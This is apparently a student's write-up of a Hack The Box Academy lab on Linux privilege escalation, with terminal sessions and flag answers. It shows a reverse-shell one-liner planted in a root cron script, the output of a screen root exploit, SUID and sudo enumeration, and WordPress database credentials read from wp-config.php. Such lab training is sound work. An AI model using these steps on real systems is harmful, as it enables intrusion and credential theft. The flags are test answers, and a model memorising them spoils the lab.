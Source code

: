 # Web Requests
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Linux Privilege Escalation
* Tier: II
* Difficulty: Easy
* Category: Offensive
* Time estimate: 8 hours
* Date: DD-MM-YYYY
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Kernel Exploits
### Question:
![](./attachments/Pasted%20image%2020221116125927.png)

**Answer:** ``

---
## Vulnerable Services
### Question:
![](./attachments/Pasted%20image%2020221116125949.png)

```
┌──(kali㉿kali)-[/etc]
└─$ screen -v

Screen version 4.05.00 (GNU) 10-Dec-16
```

```
┌──(kali㉿kali)-[/etc]
└─$ ssh htb-student@10.129.93.127   
htb-student@10.129.93.127's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

242 packages can be updated.
174 updates are security updates.


Last login: Wed Nov 16 12:50:06 2022 from 10.10.15.45
htb-student@NIX02:~$ touch script.sh
htb-student@NIX02:~$ nano script.sh

```

Insert the exploit code in `script.sh` and save.

```
htb-student@NIX02:~$ chmod +x script.sh
htb-student@NIX02:~$ ./script.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-htb-student.

# cat /root/screen_exploit/flag.txt
91927dad55ffd22825660da88f2f92e0
```

**Answer:** `91927dad55ffd22825660da88f2f92e0`

---
## Cron Job Abuse
### Question:
![](./attachments/Pasted%20image%2020221116133342.png)

```
htb-student@NIX02:~$ cat /dmz-backups/backup.sh
#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 htb-student@NIX02:~$ nano /dmz-backups/backup.sh
```

Insert one-liner payload `bash -i >& /dev/tcp/10.10.15.45/443 0>&1` and save.

Then setup `netcat` to listen for the incoming connection.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lnvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.93.127.
Ncat: Connection from 10.129.93.127:45650.
bash: cannot set terminal process group (1884): Inappropriate ioctl for device
bash: no job control in this shell
root@NIX02:~# cat cron_abuse/flag.txt
cat cron_abuse/flag.txt
14347a2c977eb84508d3d50691a7ac4b
```

**Answer:** `14347a2c977eb84508d3d50691a7ac4b`

---
## Special Permissions
### Question 1:
![](./attachments/Pasted%20image%2020221116134354.png)

```
htb-student@NIX02:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 8816 Nov 16 12:55 /tmp/rootshell
-rwsr-xr-x 1 root root 16728 Sep  1  2020 /home/htb-student/shared_obj_hijack/payroll
-rwsr-xr-x 1 root root 16728 Sep  1  2020 /home/mrb3n/payroll
-rwSr--r-- 1 root root 0 Aug 31  2020 /home/cliff.moore/netracer
-rwsr-xr-x 1 root root 40152 Nov 30  2017 /bin/mount
-rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 73424 Feb 12  2016 /bin/sed
-rwsr-xr-x 1 root root 27608 Nov 30  2017 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter
-rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 10624 May  9  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 1588768 Aug 31  2020 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root root 94240 Jun  9  2020 /sbin/mount.nfs
```

**Answer:** `/bin/sed`

### Question 2:
![](./attachments/Pasted%20image%2020221116134405.png)

```
htb-student@NIX02:~$ find / -uid 0 -perm -6000 -type f 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/bin/facter
```

**Answer:** `/usr/bin/facter`

---
## Sudo Rights Abuse
### Question:
![](./attachments/Pasted%20image%2020221116135558.png)

```
htb-student@NIX02:~$ sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

**Answer:** `/usr/bin/openssl`

---
## Path Abuse
### Question:
![](./attachments/Pasted%20image%2020221116140516.png)

```
htb-student@NIX02:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/tmp
```

**Answer:** `/tmp`

---
## 
### Question:
![](./attachments/Pasted%20image%2020221116141355.png)
*Hint: Look in the default WordPress configuration file.*

```
htb-student@NIX02:~$ ls /var/www/html
index.php    wp-activate.php     wp-comments-post.php  wp-content   wp-links-opml.php  wp-mail.php      wp-trackback.php
license.txt  wp-admin            wp-config.php         wp-cron.php  wp-load.php        wp-settings.php  xmlrpc.php
readme.html  wp-blog-header.php  wp-config-sample.php  wp-includes  wp-login.php       wp-signup.php
htb-student@NIX02:~$ cat /var/www/html/wp-config.php | grep 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'wordpressuser' );
define( 'DB_PASSWORD', 'W0rdpr3ss_sekur1ty!' );
htb-student@NIX02:~$
```

**Answer:** `W0rdpr3ss_sekur1ty!`

---
## 
### Question:


**Answer:** ``

---
## 
### Question:


**Answer:** ``

---
**Tags:** [[Hack The Box Academy]]